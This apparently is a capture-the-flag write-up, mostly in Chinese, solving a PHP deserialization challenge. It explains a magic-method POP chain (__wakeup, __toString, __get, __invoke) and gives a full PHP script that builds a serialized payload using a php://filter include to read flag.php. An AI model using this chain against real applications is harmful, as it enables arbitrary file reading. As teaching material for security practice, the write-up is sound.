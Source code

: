 ```php
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

简单反序列化 pop 链构造, learn from 那里是介绍魔术方法的文章, 已经无法访问了, 但是不影响做题

这题的利用点是 Modifier 类的 append 方法, 通过文件包含配合伪协议读取 flag.php 的内容

触发的前提是 \_\_invoke, 即以函数形式调用, 然后我们可以发现这个调用存在于 Test 类的 \_\_get 方法中

\_\_get 的前提是访问一个不存在的属性, 而在 Show 类的 \_\_toString 方法里面存在着可以利用的语句 `$this->str->source`

然后 \_\_wakeup 的 preg\_match 函数可以触发 \_\_toString

写的时候把利用链倒过来写就行了

payload

```php
<?php

class Modifier{
    protected $var = 'php://filter/convert.base64-encode/resource=flag.php';
}

class Test{
    public $p;
}

class Show{
    public $source;
    public $str;
}


$d = new Modifier();

$c = new Test();
$c->p = $d;

$b = new Show();
$b->str = $c;

$a = new Show();
$a->source = $b;

echo urlencode(serialize($a));

?>
```

base64 解码后得到 flag
